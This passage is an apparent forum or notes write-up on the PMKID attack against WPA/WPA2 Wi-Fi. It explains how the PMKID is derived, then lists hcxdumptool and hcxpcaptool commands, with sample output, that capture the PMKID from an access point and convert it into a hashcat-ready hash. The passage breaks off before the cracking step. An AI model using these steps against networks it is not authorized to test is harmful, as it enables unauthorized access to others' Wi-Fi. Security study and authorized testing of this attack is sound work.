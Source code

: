 
  
Attack details:  
  
The RSN IE is an optional field that can be found in 802.11 management frames. One of the RSN capabilities is the PMKID.  
  
![[Pasted image 20211027125225.png]]
  
The PMKID is computed by using HMAC-SHA1 where the key is the PMK and the data part is the concatenation of a fixed string label "PMK Name", the access point's MAC address and the station's MAC address.  
  

Code:

`PMKID = HMAC-SHA1-128(PMK, "PMK Name" | MAC_AP | MAC_STA)`

  
Since the PMK is the same as in a regular EAPOL 4-way handshake this is an ideal attacking vector.  
  
We receive all the data we need in the first EAPOL frame from the AP.  
  

---

  
How to reproduce:  
  
1. Run hcxdumptool to request the PMKID from the AP and to dump the recieved frame to a file (in pcapng format).  
  

Code:

`$ ./hcxdumptool -o test.pcapng -i wlp39s0f3u4u5 --enable_status`

  
Output:  
  

![[Pasted image 20211027125353.png]]
  
If an AP recieves our association request packet and supports sending PMKID we will see a message "FOUND PMKID" after a moment:  
  

> Quote:[13:29:57 - 011] 89acf0e761f4 -> 4604ba734d4e <ESSID> [ASSOCIATIONREQUEST, SEQUENCE 4]  
> [13:29:57 - 011] 4604ba734d4e -> 89acf0e761f4 [ASSOCIATIONRESPONSE, SEQUENCE 1206]  
> [13:29:57 - 011] 4604ba734d4e -> 89acf0e761f4 [FOUND PMKID]

  
Note: Based on the noise on the wifi channel it can take some time to recieve the PMKID. We recommend running hcxdumptool up to 10 minutes before aborting.  
  
2. Run hcxpcaptool to convert the captured data from pcapng format to a hash format accepted by hashcat.  
  

Code:

`$ ./hcxpcaptool -z test.16800 test.pcapng`

  
Output:  
  